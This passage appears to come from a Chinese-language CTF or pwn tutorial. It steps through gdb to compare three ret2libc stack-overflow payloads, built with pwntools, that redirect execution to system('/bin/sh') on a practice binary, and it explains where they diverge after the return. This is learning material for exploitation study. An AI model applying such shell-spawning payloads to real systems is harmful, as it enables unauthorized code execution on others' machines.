 ```python
#payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
#payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
gdb.attach(p)
#print payload
#print payload1
p.sendline(error_payload)
p.interactive()
```

复制粘贴到对应的文件，然后启动三个终端开始调试程序。现在三个exp都应该断在相同的位置，在我的机器上是断在了：

```python
 EIP  0xf7fd7fd9 (__kernel_vsyscall+9) ◂— pop    ebp
```

在三个gdb终端窗口中输入finish，直到程序的eip指向程序的代码段领空，现在三个的汇编如下：

```python
payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608964283562-76524152-219d-4720-9626-3a4e715440c1.png)

```python
payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608964352477-c7ce2d35-a3a7-43f6-9481-9adc4a2d8874.png)

```python
error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608964388994-7f86cad9-bc23-44bd-b8d0-4be0edd5c88f.png)

---

现在，我们让所有程序单步到retn之后：

```python
payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608964679917-525e74c3-3c1a-4aff-a933-a9a96e2e2329.png)

```python
payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608964712186-5642f72f-0980-4489-a9a5-94fe89cedcf0.png)

```python
error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608964731959-6a027d67-72dd-4743-8e07-169287e69b29.png)

---